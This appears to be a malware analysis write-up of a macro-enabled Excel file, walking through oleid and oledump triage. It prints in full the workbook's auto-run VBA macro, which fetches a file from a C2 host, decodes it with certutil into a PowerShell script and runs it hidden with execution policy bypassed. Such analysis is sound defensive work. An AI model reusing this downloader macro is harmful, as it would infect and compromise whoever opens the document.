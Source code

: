 # sheetsForFinancial.xlsm

# Identification:

**FileName:** sheetsForFinancial.xlsm

**SHA256:** 16e6489b81a41f0bfc2bc9bb0165b624c51ed4fecf6438c73a5ee6501caf34dc

**FileSize:** 20480 (bytes)

<br>

# Analysis:

The analysis was started by checking if the excel contain macro. For this Oletools were used. Initial triage on the sample was carried out using oleid to check for any macro or remote template injections using the command. 

 `oleid sheetsForFinancial.xlsm`

    oleid 0.60.dev1 - http://decalage.info/oletools
    THIS IS WORK IN PROGRESS - Check updates regularly!
    Please report any issue at https://github.com/decalage2/oletools/issues
    
    Filename: sheetsForFinancial.xlsm
    --------------------+--------------------+----------+--------------------------
    Indicator           |Value               |Risk      |Description
    --------------------+--------------------+----------+--------------------------
    File format         |MS Excel 2007+      |info      |
                        |Macro-Enabled       |          |
                        |Workbook (.xlsm)    |          |
    --------------------+--------------------+----------+--------------------------
    Container format    |OpenXML             |info      |Container type
    --------------------+--------------------+----------+--------------------------
    Encrypted           |False               |none      |The file is not encrypted
    --------------------+--------------------+----------+--------------------------
    VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA
                        |                    |          |macros. Suspicious
                        |                    |          |keywords were found. Use
                        |                    |          |olevba and mraptor for
                        |                    |          |more info.
    --------------------+--------------------+----------+--------------------------
    XLM Macros          |No                  |none      |This file does not contain
                        |                    |          |Excel 4/XLM macros.
    --------------------+--------------------+----------+--------------------------
    External            |0                   |none      |External relationships
    Relationships       |                    |          |such as remote templates,
                        |                    |          |remote OLE objects, etc
    --------------------+--------------------+----------+--------------------------

Here, from the result of oleid tool, it was found that this excel file contain VBA macro.

Using the oledump tool, it was then checked which stream contains the macro as shown below.

`oledump.py sheetsForFinancial.xlsm`

    A: xl/vbaProject.bin      
     A1:       468 'PROJECT'  
     A2:        86 'PROJECTwm'
     A3: M    7829 'VBA/Module
     A4: m    1196 'VBA/Sheet1
     A5: m    1204 'VBA/ThisWo
     A6:      3130 'VBA/_VBA_P
     A7:      4020 'VBA/__SRP_
     A8:       272 'VBA/__SRP_
     A9:      3892 'VBA/__SRP_
    A10:       220 'VBA/__SRP_
    A11:       680 'VBA/__SRP_
    A12:       106 'VBA/__SRP_
    A13:       464 'VBA/__SRP_
    A14:       106 'VBA/__SRP_
    A15:       562 'VBA/dir'  

Here, the streams 3, 4 and 5 seems to contain macro.

Again using the oledump tool, the macro from stream 3 was dumped using the command.

`oledump.py -s 3 -v sheetsForFinancial.xlsm`

    Attribute VB_Name = "Module1"
    Function genStr(Length As Integer)
    Dim chars As Variant
    Dim x As Long
    Dim str As String
    
      If Length < 1 Then
        Exit Function
      End If
    
    chars = Array("a", "b", "c", "d", "e", "f", "g", "h", "i", "j", _
      "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", _
      "y", "z", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "!", "@", _
      "#", "$", "%", "^", "&", "*", "A", "B", "C", "D", "E", "F", "G", "H", _
      "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", _
      "W", "X", "Y", "Z")
      For x = 1 To Length
        Randomize
        str = str & chars(Int((UBound(chars) - LBound(chars) + 1) * Rnd + LBound(chars)))
      Next x
    
      randStr = str
    
    End Function
            Sub Workbook_Open()
                Dim str1: genStr (17)
                Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
                str2 = "wgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWFzLiBEbyB5b3UgbmVlZCBhIG1hbmFnZXI/CgpNdXN0IGdvIGZhc3Rlci4uLiBnbywgZ28sIGdvLCBnbywgZ28hIFRoaXMgdGhpbmcgY29tZXMgZnVsbHkgbG9hZGVkLiBBTS9GTSByYWRpbywgcmVjbGluaW5nIGJ1Y2tldC"
                Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
                str3 = "WQgd2l0aCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
                xHttp.Open "GET", "http://srv3.wonderballfinancial.local/abc123.crt", False
                xHttp.Send
                Dim str9: genStr (10)
                With bStrm
                .Type = 1 '//binary
                .Open
                .write xHttp.responseBody
                .savetofile "encd.crt", 2 '//overwrite
                End With
                str5 = "WQgd2l0aCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
                str6 = "Z2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWZ2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZW"
                Shell ("cmd /c certutil -decode encd.crt run.ps1 & c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -W Hidden .\run.ps1")
            End Sub


From the VBScipt, it can be seen that, from its C2 'srv3.wonderballfinancial.local', it downloads 'abc123.crt' and save it as 'encd.crt'. It then uses certutil to decode 'encd.crt' and then save it as a PowershellScript 'run.ps1'. And then executes 'run.ps1' script by allowing execution of the unsigned PowerShell script and by hidding the its window.  
